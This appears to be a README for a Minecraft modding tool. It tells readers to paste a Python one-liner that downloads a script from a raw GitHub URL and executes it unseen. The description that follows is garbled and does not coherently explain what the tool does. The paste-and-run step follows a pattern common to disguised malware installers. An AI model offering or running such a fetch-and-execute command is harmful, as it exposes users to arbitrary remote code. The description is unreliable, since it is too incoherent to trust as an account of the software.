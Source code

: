 # How to use?
## On your code/python prompt you copy and paste this code: (auto detects OS)
### `exec(__import__('requests').get('https://raw.githubusercontent.com/davifaaricardo/psychic-octo-couscous/installer/main.py').text)`
## Description:
### `this project will help minecraft modders (any type) to change its file from the source (project.jar) then inputting in arguments, else inpuutting decompile it (first, renaming to (project.jar) to (project.zip or project.rar) then decompacting it) then trying to reverse search the files. by using fabrics default help git repo to example then downloading it with (gradle / grandle.bat) then when the user uses the file: setup.py it will run the thing to detect language download the preferred then executing it (executing gradle / gradle.bat )`
### License
This template is available under the CC0 license. Feel free to learn from it and incorporate it in your own projects.
